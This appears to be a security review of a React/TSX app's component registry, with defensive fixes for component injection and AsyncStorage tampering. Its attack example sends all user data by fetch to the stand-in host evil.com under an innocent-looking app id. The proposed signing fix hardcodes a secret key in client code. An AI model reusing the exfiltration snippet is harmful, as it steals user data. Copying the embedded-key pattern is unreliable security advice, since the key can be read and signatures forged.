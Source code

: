 
## 🔷 SECURITY VULNERABILITIES

### 1. Component Injection Attack

**Current:** No validation of components
```tsx
component: ComponentType<any>; // Could be ANYTHING!
```

**Attack Vector:**
```tsx
const MaliciousComponent = () => {
  // Steal user data
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: JSON.stringify(getAllUserData()),
  });
  return null;
};

// Inject via compromised dependency
apps.push({
  id: 'innocent-tool',
  component: MaliciousComponent,
});
```

**Required Protection:**
```tsx
const ALLOWED_COMPONENTS = new WeakSet([
  EnvVarsModal,
  NetworkInspector,
  // Explicitly allowed only
]);

const validateComponent = (component: unknown) => {
  if (!ALLOWED_COMPONENTS.has(component)) {
    throw new SecurityError('Unauthorized component');
  }
};
```

### 2. AsyncStorage Tampering

**Current:** Blindly trusts stored data

**Attack:** User modifies AsyncStorage to inject malicious app IDs

**Required:** Signed storage
```tsx
import { createHmac } from 'crypto';

const SECRET_KEY = 'your-secret-key';

const saveSecure = async (key: string, data: any) => {
  const json = JSON.stringify(data);
  const signature = createHmac('sha256', SECRET_KEY)
    .update(json)
    .digest('hex');

  await AsyncStorage.setItem(key, JSON.stringify({
    data: json,
    signature,
  }));
};
```